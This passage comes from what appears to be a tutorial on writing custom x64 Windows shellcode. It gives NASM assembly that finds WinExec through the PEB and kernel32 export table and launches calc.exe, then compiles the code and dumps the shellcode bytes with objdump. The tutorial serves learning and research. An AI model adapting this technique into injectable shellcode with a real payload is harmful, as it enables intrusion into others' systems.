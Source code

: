 Sure enough, there is is!

![image](https://github.com/user-attachments/assets/e0ad0871-14dc-4576-bffd-eaa977c691b2)

**Now let's use our newfound WinExec address to execute calc.exe!**

```nasm
executeit:
; --- prepare to call WinExec ---
pop r15                         ;address for WinExec
mov rax, 0x00                   ;push null string terminator '0'
push rax                        ;push it onto the stack
mov rax, 0x6578652E636C6163     ; move string 'calc.exe' into RAX 
push rax                        ; push string + null terminator to stack
mov rcx, rsp	                  ; RDX points to stack pointer "WinExec" (1st parameter))
mov rdx, 1                      ; move 1 (show window parameter) into RDX (2nd parameter)
sub rsp, 0x30                   ; align stack 16 bytes and allow for proper setup for shadow space demands
call r15                        ; Call WinExec!!
```

I don't need to take a pic of calc.  just trust me, it loaded 😸  **HOWEVER**!!! This compiled program does not exit gracefully because we do not load `ExitProcess`.
That can be your homework.  Try and find a way to use the information gleaned in this writeup to also locate ExitProcess (it's also in kernel32.dll) and exit this program cleanly.  Okay, onto our last segment...

***Part 3 - Convert to x64 Shellcode: execute your custom shellcode***
-

First off, go ahead and compile it:

`nasm.exe -f win64 winexec.asm -o winexec.o`

That will produce an .obj file.  Now, just do the following:

`objdump -d winexec.o`

You should get your shellcode output along with your assembly instructions.  Here's what mine looks like.  

```nasm
Disassembly of section .text:

0000000000000000 <main>:
   0:   48 83 ec 28             sub    $0x28,%rsp
   4:   48 83 e4 f0             and    $0xfffffffffffffff0,%rsp
   8:   48 31 c9                xor    %rcx,%rcx
   b:   65 48 8b 41 60          mov    %gs:0x60(%rcx),%rax
  10:   48 8b 40 18             mov    0x18(%rax),%rax
  14:   48 8b 70 10             mov    0x10(%rax),%rsi
  18:   48 8b 36                mov    (%rsi),%rsi
  1b:   48 8b 36                mov    (%rsi),%rsi
  1e:   48 8b 5e 30             mov    0x30(%rsi),%rbx
  22:   49 89 d8                mov    %rbx,%r8
  25:   8b 5b 3c                mov    0x3c(%rbx),%ebx
  28:   4c 01 c3                add    %r8,%rbx
  2b:   8b 93 88 00 00 00       mov    0x88(%rbx),%edx
  31:   4c 01 c2                add    %r8,%rdx
  34:   44 8b 52 14             mov    0x14(%rdx),%r10d
  38:   4d 31 db                xor    %r11,%r11
  3b:   44 8b 5a 20             mov    0x20(%rdx),%r11d
  3f:   4d 01 c3                add    %r8,%r11
  42:   4c 89 d1                mov    %r10,%rcx
  45:   48 b8 57 69 6e 45 78    movabs $0x636578456e6957,%rax
  4c:   65 63 00
  4f:   50                      push   %rax
  50:   48 89 e0                mov    %rsp,%rax
```